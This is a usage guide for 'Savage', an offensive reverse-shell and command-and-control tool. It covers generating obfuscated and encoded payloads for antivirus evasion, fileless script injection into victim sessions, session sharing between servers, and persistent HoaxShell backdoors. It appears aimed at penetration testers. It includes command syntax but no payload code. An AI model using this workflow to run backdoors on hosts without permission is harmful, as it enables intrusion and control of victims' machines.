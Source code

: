# Usage Guide
:warning: Savage was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Savage's introduction on youtube for more info.  

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest Savage release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Savage and deal with AV evasion in a more productive and efficient way. 

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Handlers:
- reverse_tcp
- hoaxshell

The "payload" argument supports tab-autocomplete, allowing for quick selection of valid OS types, handlers, and templates.

Usage examples:
```
generate payload=windows/reverse_tcp/powershell lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0 obfuscate
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Savage with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV 
  evasion.

⚡Reverse TCP based shells are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Savage. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Savage).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Savage prompt.

## Upload
Use the `upload` pseudo shell prompt command to transfer a file from your system into an active session. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server.

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage: 
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Inject
Use the `inject` pseudo shell prompt command to fileless exec a local script file over http against an active session. Files are executed by being http requested from the Http File Smuggler. The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).  

Usage: 
```
inject </path/to/local/file> 
```

## Flee
Use the `flee` prompt command to exit Savage without terminating any active sessions. If you start Savage again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.  

## Purge
Savage automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
Savage has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```

